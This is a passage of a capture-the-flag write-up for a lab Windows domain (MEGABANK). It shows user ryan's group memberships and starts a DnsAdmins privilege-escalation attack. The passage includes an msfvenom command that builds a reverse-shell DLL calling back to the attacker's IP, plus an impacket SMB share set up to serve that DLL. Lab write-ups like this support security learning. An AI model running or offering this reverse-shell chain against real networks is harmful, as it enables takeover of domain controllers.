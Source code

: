 ```
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

We see that in the `MEGABANK` domain, `ryan` belongs to the `Contractors` and `DnsAdmins` groups. Now it just so happens that there is a privilege escalation vulnerability related to the `DNSAdmins` groups, [as mentioned earlier](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html).

When I was doing the box, I found a [clearer guide for exploiting this vulnerability](https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/). So let's follow:
  
  
First, we prepare a malicious DLL using `msfvenom` on our attacking machine:
```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.64 LPORT=4444 --platform=windows -f dll > plugin.dll
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
```
  
  
Next, we share the malicious DLL from our attacking machine via SMB (we can do this easily by using [impacket's](https://github.com/SecureAuthCorp/impacket) smbserver.py):
```
kali@kali:~$ mkdir smb;cp plugin.dll smb
kali@kali:~$ sudo smbserver.py share smb
[sudo] password for kali: 
Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
(The syntax for `smbserver` is: `smbserver.py <name of share to be decided by you> <name of folder you want to share>`)
  